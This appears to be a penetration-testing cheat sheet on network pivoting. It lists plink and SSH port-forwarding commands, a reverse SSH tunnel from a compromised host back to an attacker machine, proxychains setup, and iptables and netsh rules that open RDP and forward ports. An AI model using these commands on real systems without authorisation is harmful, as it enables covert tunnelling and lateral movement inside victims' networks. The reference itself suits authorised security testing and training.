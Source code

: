 ### <--- Pivoting ---> ###

#### Plink Remote Port Forwarding ####

```plink -l $user -pw $password $attacking_machine_ip -R $attacker_port_to_open:127.0.0.1:$victim_port```

```plink.exe -R "remote port":127.0.0.1:"local port" root@"ipaddress"```

```$command 127.0.0.1:$attacker_port```

#### SSH Remote Port Forwarding ####

```ssh user@target_ip -R $remote_port:127.0.0.1:$local_port```

#### SSH Local Port Forwarding ###

```ssh user@target_ip -L $initiating_ip:$initiating_port:$target_ip:$target_port```

#### SSH Dynamic Port Forwarding ###

##### Create a Local SOCKS4 Proxy ####

*Example: ssh -D 8080 root@pwned.com*

```ssh -D $local_proxy_port -p $remote_port $target```

#### Using Proxychains ####

##### Create a reverse SSH tunnel to attacker from compromised host #####

```ssh -f -N -R 2222:127.0.0.1:22 root@kali```

#####  Create a dynamic application-level port forward on port 8080 on attacking machine #####

```ssh -f -N -D 127.0.0.1:8080 -p 2222 user@local```

##### Set proxychains  #####

```nano /etc/proxychains.conf```

```socks4 127.0.0.1 8080```

### Firewall rules ###

#### IPTables ####

*NOTE: https://www.andreafortuna.org/2019/05/08/iptables-a-simple-cheatsheet/*

```iptables -t nat -A PREROUTING -p tcp -d 1.2.3.4 --dport 422 -j DNAT --to 192.168.0.100:22```

#### Netsh ####

NOTE: http://woshub.com/port-forwarding-in-windows/

Check rules

```netsh advfirewall show allprofiles```

Create Rule

```netsh advfirewall firewall add rule name="Open Remote Desktop" protocol=TCP dir=in localport=3389 action=allow```

Port Forward

```netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport```

Check

```netstat -ano | findstr :$listenport```


